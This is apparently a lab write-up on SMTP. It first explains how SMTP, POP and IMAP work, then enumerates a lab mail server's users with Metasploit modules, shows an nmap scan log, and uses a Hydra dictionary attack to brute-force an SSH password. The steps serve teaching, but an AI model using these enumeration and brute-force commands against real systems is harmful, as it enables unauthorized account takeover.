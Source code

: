 # SMTP

- What is SMTP:

  - **Simple Mail Transfer Protocol** handles sending emails. To support email services, a protocol pair is required. That;s made up of both SMTP and POP/IMAP. Together, they allow the user to send outgoing mail and retrieve incoming mail respectively.

- What does SMTP do?

  - The SMTP server performs three basic functions
    - it verifies who is sending emails through the SMTP server
    - it sends the outgoing mail
    - if the outgoing mail cant be delivered, it send the message back to the sender.

- What are POP and IMAP
  - **Post Office Protocol** and **Internet Message Access Protocol** are both mail protocols that are responsible for the transfer of email between a client and a mail server.
  - POP is a simplistic approach of downloading the inbox from the mail server to the client
  - IMAP will sync the current inbox with new mail on the server, only downloading what's new.
- How does SMTP work?

  - The user supplies an email, a service will deliver it to the recipients inbox. The role of the SMTP server in this service is to act as the sorting office. The email is sent to this server which then directs it to the recipient.

  User -> SMTP Server -> WWW -> POP / IMAP Server -> Recipient

1. The mail user agent, which is either your email client or an external program. connects to the SMTP server of your domain, e.g. smtp.google.com. This initiates the SMTP handshake. This connection works over the SMTP port- which is usually 25. Once these connections have been made and validated, the SMTP session starts.

2. The process of sending mail can now begin. The client first submits the sender, and recipient's email address- the body of the email and any attachments, to the server.

3. The SMTP server then checks whether the domain name of the recipient and the sender is the same.

4. The SMTP server of the sender will make a connection to the recipient's SMTP server before relaying the email. If the recipient's server can't be accessed, or is not available- the Email gets put into an SMTP queue.

5. Then, the recipient's SMTP server will verify the incoming email. It does this by checking if the domain and user name have been recognised. The server will then forward the email to the POP or IMAP server, as shown in the diagram above.

6. The E-Mail will then show up in the recipient's inbox.

## Enumeration

- Poorly configured mail servers often provide an initial foothold into a network. Prior to launching an attach, we want to fingerprint the server. Here, we will use _smtp_version_, a MetaSploit module.

- The SMTP service has two internal commands that allows us to enumerate users:

  - VRFY: confirm the names of valid users
  - EXPN: reveals actual address of user's aliases and lists of email.
    With using these SMTP commands, we can reveal a list of users.

- We can do this manually over a telnet connection however, Metasploit can also be used. _smtp_enum_ will do the initial work for us.

### MetaSploit

- Drop into the msfconsole
- Search for out exploit _smtp_version_
  ```bash
  msf6> search smtp_version
  ```
- Use the Aux smtp scanner
  ```bash
  msf6 > use auxiliary/scanner/smtp/smtp_version
  ```
- Set the RHOSTS
  ```bash
  set RHOSTS 10.10.x.x
  ```
- Output:

  ```bash
  msf5 auxiliary(scanner/smtp/smtp_version) > exploit

  [+] 10.10.193.219:25      - 10.10.193.219:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a
  [*] 10.10.193.219:25      - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

- _SMTP_ENUM_

  ```bash
  Module options (auxiliary/scanner/smtp/smtp_enum):

  Name       Current Setting                                               Required  Description
  ----       ---------------                                               --------  -----------
  RHOSTS     10.10.152.94                                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      25                                                            yes       The target port (TCP)
  THREADS    1                                                             yes       The number of concurrent threads (max one per host)
  UNIXONLY   true                                                          yes       Skip Microsoft bannered servers when testing unix users
  USER_FILE  /opt/metasploit-framework-5101/data/wordlists/unix_users.txt  yes       The file that contains a list
  of probable users accounts.

  msf5 auxiliary(scanner/smtp/smtp_enum) > set user_file /usr/share/wordlists/SecLists/Usernames/top-usernames-shortli
  st.txt
  user_file => /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
  msf5 auxiliary(scanner/smtp/smtp_enum) > run

  [*] 10.10.152.94:25       - 10.10.152.94:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
  [+] 10.10.152.94:25       - 10.10.152.94:25 Users found: administrator
  [*] 10.10.152.94:25       - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

## NMAP

```bash
# Nmap 7.60 scan initiated Thu May 13 16:29:09 2021 as: nmap -p 0-1000 -v -sV -sC -A -oN smtp 10.10.152.94
adjust_timeouts2: packet supposedly had rtt of -175494
Nmap scan report for ip-10-10-152-94.eu-west-1.compute.internal (10.10.152.94)
Host is up (0.00044s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 62:a7:03:13:39:08:5a:07:80:1a:e5:27:ee:9b:22:5d (RSA)
|   256 89:d0:40:92:15:09:39:70:17:6e:c5:de:5b:59:ee:cb (ECDSA)
|_  256 56:7c:d0:c4:95:2b:77:dd:53:d6:e6:73:99:24:f6:86 (EdDSA)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: polosmtp.home, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8,
| ssl-cert: Subject: commonName=polosmtp
| Subject Alternative Name: DNS:polosmtp
| Issuer: commonName=polosmtp
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-22T18:38:06
| Not valid after:  2030-04-20T18:38:06
| MD5:   5c21 92bb 0da5 82d6 7b45 a851 7651 7137
|_SHA-1: eb6c 0d88 57e6 8ba7 8308 aac8 9c34 0836 d2a1 c133
|_ssl-date: TLS randomness does not represent time
MAC Address: 02:AF:BF:4D:3B:C1 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=5/13%OT=22%CT=1%CU=34474%PV=Y%DS=1%DC=D%G=Y%M=02AFBF%T
OS:M=609D45D5%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A
OS:)SEQ(SP=102%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M23
OS:01ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
OS:WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=
OS:F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N
OS:)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 31.305 days (since Mon Apr 12 09:10:33 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host:  polosmtp.home; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms ip-10-10-152-94.eu-west-1.compute.internal (10.10.152.94)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 13 16:29:25 2021 -- 1 IP address (1 host up) scanned in 16.17 seconds
```

## Exploitation

- So far, we have collected a few critical pieces of information
  1. the SMTP server version: polosmtp.home ESMTP PostFix
  1. A username: administrator
  1. The only other open port is SSH
- Currently, our only option is to bruteforce the password for the SSH login via Hydra

### Hydra

- Hydra uses dictionary attacks primarily.
  ```bash
  hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.x.x. ssh
  ```
  | hydra                   | Runs the hydra tool                                          |
  | ----------------------- | ------------------------------------------------------------ | ---------------------------------- |
  | -t 16                   | Number of parallel connections per target                    |
  | -l [user]               | Points to the user who's account you're trying to compromise |
  | -P [path to dictionary] | Points to the file containing the list of possible passwords |
  | -vV                     | Sets verbose mode to very verbose, shows the login           | +pass combination for each attempt |
  | [machine IP]            | The IP address of the target machine                         |
  | ssh / protocol          | Sets the protocol                                            |
- Result

```bash
[22][ssh] host: 10.10.152.94   login: administrator   password: alejandro
```
